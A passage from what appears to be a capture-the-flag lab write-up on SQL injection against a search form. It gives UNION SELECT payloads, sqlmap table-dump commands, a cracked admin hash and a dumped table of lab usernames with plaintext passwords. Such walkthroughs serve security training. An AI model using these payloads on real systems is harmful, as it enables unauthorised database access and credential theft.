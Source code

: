> [3]: what are columns names so we can get data from tables ?

`junk'UNION SELECT column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='Users'-- -`

![Pasted image 20210910061843](https://user-images.githubusercontent.com/67979878/132948942-d615045a-1236-40c7-b696-eb047e0e0840.png)

[+] columns : UserID,Username,Password

> [4] : get what do you want :

`junk'UNION SELECT UserID,Username,Password,NULL,NULL,NULL from Users -- -`

![Pasted image 20210910061959](https://user-images.githubusercontent.com/67979878/132948953-2be3d3bb-0726-41c5-8340-a448c85988af.png)

crack the hash : 

[+] Name: admin 856f5de590ef37314e7c3bdf6f8a66dc: transorbital1

## sqlmap

> [1] get all tables names

```bash
$ sqlmap -u " http://192.168.1.7/results.php " --method POST --data="search=" -p search --dbms=mysql --tables                     
```
![Pasted image 20210910064512](https://user-images.githubusercontent.com/67979878/132948995-4d4fbce0-9fed-450b-a7f8-9b8fce666550.png)


we have other databases rather than information.schema 

> [2] get table users and dump content 

```bash
$ sqlmap -u " http://192.168.1.7/results.php " --method POST --data="search=" -p search --dbms=mysql -T Users --dump 
```
![Pasted image 20210910063802](https://user-images.githubusercontent.com/67979878/132948989-53759237-ab11-4e56-a4a7-5d4e40c0b745.png)


> [new] enumerate new databases :

```bash
$ sqlmap -u " http://192.168.1.7/results.php " --method POST --data="search=" -p search --dbms=mysql -D users -T UserDetails --dump  
```

results :
```
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
```